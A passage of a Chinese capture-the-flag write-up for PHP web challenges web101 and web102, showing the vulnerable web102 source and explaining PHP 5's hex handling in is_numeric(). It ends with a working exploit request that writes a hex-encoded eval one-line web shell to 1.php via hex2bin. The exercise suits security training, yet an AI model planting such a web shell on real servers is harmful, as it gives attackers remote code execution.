 预期解是利用PHP中反射类ReflectionClass

![image-20220808195037651](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208081950721.png?x-oss-process=hzy)

# web101

就是上一题的预期

# web102

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 20:59:43

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?>
```

> **is_numeric()** 函数用于检测变量是否为数字或数字字符串。

在php5下，is_numeric()可以识别十六进制

```
var_dump(is_numeric("0x55"));  #php5的环境下返回true  php7返回false
```

所以当处于php5环境下可以将马转成十六进制

```
GET:v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php  #<?php eval($_POST[1]);?>
POST:v1=hex2bin
```
